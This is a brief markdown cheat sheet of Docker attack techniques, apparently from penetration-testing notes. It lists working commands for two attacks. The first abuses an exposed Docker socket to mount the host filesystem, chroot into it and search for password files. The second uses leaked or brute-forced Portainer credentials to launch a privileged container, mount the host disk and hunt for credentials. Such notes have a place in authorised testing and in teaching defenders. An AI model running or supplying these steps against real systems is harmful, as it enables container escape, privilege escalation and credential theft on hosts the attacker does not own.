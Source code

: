 # Docker-Related Attack Vectors

### Docker Socket

* If you have user privileges in a host machine check these:&#x20;
  * Find `netstat -tunape` docker socket in localhost
  * export it to env `export DOCKER_HOST="tcp://localhost:2222"`
  * Look docker images in host machine and run it with connecting host
    * &#x20;`docker run -it -v /:/host ubuntu:20.04 bash`
    * `cd /host/`
    * `chroot ./ bash`
    * `find / -name password`



### Portainer Web UI access

* If you have portainer access, (via leaked creds or bruteforce)
  * Create privileged docker via portainer web UI&#x20;
  * Later connect there via from web ui of portainer:
    * `mount /dev/sda /mnt`
    * `cd /mnt`
    * `chroot ./ bash`
    * Then find credentials in root mounted&#x20;
